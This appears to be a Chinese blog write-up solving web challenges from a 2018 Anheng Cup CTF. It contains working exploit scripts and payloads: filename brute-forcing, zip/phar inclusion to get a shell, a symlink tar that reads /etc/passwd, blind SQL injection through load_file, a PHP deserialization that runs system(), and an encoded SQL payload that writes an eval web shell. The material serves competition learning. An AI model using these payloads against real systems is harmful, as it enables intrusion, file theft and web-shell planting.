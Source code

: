 ```yaml
---
layout: post
title: 2018年安恒杯11月月赛writeup
author: "枫丹白露"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)
> [一叶飘零的wp](https://www.anquanke.com/post/id/166492#h2-5)

## web

###签到旧题-手速要快（100分）:
10月份原题，打开网站，是一个登陆页面，password字段在返回包里，抓包然后提交，然后是一个上传页面，上传shell.php.jpg即可getshell。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/签到旧题-手速要快.png)

### image_up（200分）

一个登陆页面，随便输入就能登陆，page参数存在文件包含，可以用`php://filter`读取login和upload源码
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-1.png)
关键代码在upload里
```
<?php
    $error = "";
    $exts = array("jpg","png","gif","jpeg");
    if(!empty($_FILES["image"]))
    {
        $temp = explode(".", $_FILES["image"]["name"]);
        $extension = end($temp);
        if((@$_upfileS["image"]["size"] < 102400))
        {
            if(in_array($extension,$exts)){
              $path = "uploads/".md5($temp[0].time()).".".$extension;
              move_uploaded_file($_FILES["image"]["tmp_name"], $path);
              $error = "上传成功!";
            }
        else{
            $error = "上传失败！";
        }

        }else{
          $error = "文件过大，上传失败！";
        }
    }

?>
```
首先我们要猜测上传文件的文件名，关键位置`md5($temp[0].time())`，我们上传的文件名加上时间戳进行md5生成新的文件名，因此我们需要爆破，但是这里还有一个坑，直接爆破是出不来的，题目提示：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-2.png)
经群友提示，这里需要考虑时区问题，time+8h（脑洞真大。。。），可以爆破出文件名
```
# -*- coding: UTF-8 -*-
import time
import requests
import hashlib
url = "http://101.71.29.5:10007/"
def md5(str):
  m = hashlib.md5()   
  m.update(str)    
  return m.hexdigest()

files = {
    "image":("1.jpg",open("help.zip","rb"))
}
t = int(time.time()+8*3600)
requests.post(url=url+"index.php?page=upload",files=files)
for i in range(t-200,t+200):
    path = "uploads/"+md5("1"+str(i))+".jpg"    
    status = requests.get(url=url+path).status_code    
    if status == 200:
        print path
        break
```
但是page参数会自动在最后加上`.php`
```
<?php
  if(isset($_GET['page'])){
    if(!stristr($_GET['page'],"..")){
      $page = $_GET['page'].".php";
      include($page);
    }else{
      header("Location: index.php?page=login");
    }
  }else{
    header("Location: index.php?page=login");
  }
```
所以我们还要利用伪协议取getshell，我们先将一句话木马`1.php`压缩为`1.zip`，然后重命名为`1.jpg`，上传后利用伪协议可以将zip压缩包里的木马解析
两种方法都可以：
```
http://101.71.29.5:10007/index.php?page=zip://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg%23shell

http://101.71.29.5:10007/index.php?page=phar://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg/shell
```
### interesting web（200分）
拿到题目我们看到网站功能只有登陆、注册、和找回密码，以及：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-1.png)
可以猜测，我们首选需要利用找回密码的漏洞，修改admin密码，然后上传tar包来getshell。找回密码时需要输入token，经过测试发现网站使用python写的，猜测cookie可能使用的jwt。输入admin点击找回密码，将cookie放到网上揭秘，可以拿到token修改admin密码。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-2.png)
然后我们可以上传tar包了，利用软链接可以任意文件读取，flag在/etc/passwd里
```
ln -s /etc/passwd 1.jpg
tar cvfp 1.tar 1.jpg
```
### ezsql（200分）
登陆之后，查看用户信息处存在布尔盲注，很多关键词都过滤了
http://101.71.29.5:10015/user/user.php?id=if(0,1,2)
测试发现可以读文件
http://101.71.29.5:10015/user/user.php?id=if((hex(load_file(0x2f6574632f706173737764))like(0x25)),1,2)
写个脚本注入即可
```
# -*- coding: UTF-8 -*-
import string
import binascii
import requests

hex = lambda s: binascii.hexlify(s)
char = '01234567890ABCDEF'
filename = '/var/www/html/index.php'
c = ''
url = 'http://101.71.29.5:10015/user/user.php?id=if(hex(load_file(0x%s))like(0x%s),1,2)'

for _ in xrange(10000):
  for i in char:
    payload = c + i +'%'
    _url = url % (hex(filename), hex(payload))
    r = requests.get(_url, cookies={'PHPSESSID': 'obgfh6dgt8h9cfcaeus73tlni7'})
    if 'admin' in r.content:
      print '······' + payload
      c = c + i 
      break
      print c
```
得到文件内容
```
<?php 
require_once('config/sys_config.php');
require_once('header.php');
if(isset($_COOKIE['CONFIG'])){
    $config = $_COOKIE['CONFIG'];
    require_once('config/config.php');
}
?>
```
再读取config.php：
```
<?php
$config = unserialize(base64_decode($config));
if(isset($_GET['p'])){
    $p=$_GET['p'];
    $config->$p;
}
class Config{
    private $config;
    private $path;
    public $filter;
    public function __construct($config=""){
        $this->config = $config;
        echo 123;
    }
    public function getConfig(){
        if($this->config == ""){
            $config = isset($_POST['config'])?$_POST['config']:"";
        }
    }
    public function SetFilter($value){
//        echo $value;
    $value=waf_exec($value); 
        var_dump($value);
    if($this->filter){
            foreach($this->filter as $filter){
                $array = is_array($value)?array_map($filter,$value):call_user_func($filter,$value);
            }
            $this->filter = array();
        }else{
            return false;
        }
        return true;
    }
    public function __get($key){
        //var_dump($key);
    $this->SetFilter($key);
        die("");
    }
}
```
发现存在cookie反序列化漏洞，并且可以通过call_user_func执行命令
构造：
```
$sky = new Config();
$sky->filter = array('system');
echo base64_encode(serialize($sky));
```
经过序列化，base64编码后放入cookie中，可通过p参数执行任意命令。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/ezsql.png)
空格和/都被过滤了，可以用`$IFS`绕过空格，用`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`绕过/，也可以用grep命令。

### 好黑的黑名单（200分）
还是sql注入，过滤了很多东西，空格被过滤可以用%0a代替，万幸and没过滤，看wp知道可以使用`between and`注入
具体方法如下：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/好黑的黑名单.png)
然后payload如下：
```
?id=2 and (select (select database()) between 0x61 and 0x7a)
```
因为单引号被过滤所以使用十六进制，然后写个脚本跑吧。

### write a shell（300分）
继续注入，into outfile，select等关键字经过waf会变为@，所以可以利用该逻辑问题构造@，具体方法百度吧，我也不会。
payload：
```
set |s=concat(CHAR(115, 101, 108, 101, 99, 116, 32, 39, 60, 63, 112, 104, 112, 32, 101, 118, 97, 108, 40, 36, 95, 80, 79, 83, 84, 91, 99, 109, 100, 93, 41, 59, 63, 62, 39, 32, 105, 110, 116, 111, 32, 111, 117, 116, 102, 105, 108, 101, 32, 39, 47, 118, 97, 114, 47, 119, 119, 119, 47, 104, 116, 109, 108, 47, 102, 97, 118, 105, 99, 111, 110, 47, 50, 46, 112, 104, 112, 39));PREPARE s1 FROM |s;EXECUTE s1;

//select '<?php eval($_POST[x]);?>' into outfile '/var/www/html/favicon/11.php'
```
主要思路就是先load_file waf.php，然后想办法绕waf。


[1]: https://www.linkedbyx.com/home
[2]: https://www.anquanke.com/post/id/166492#h2-5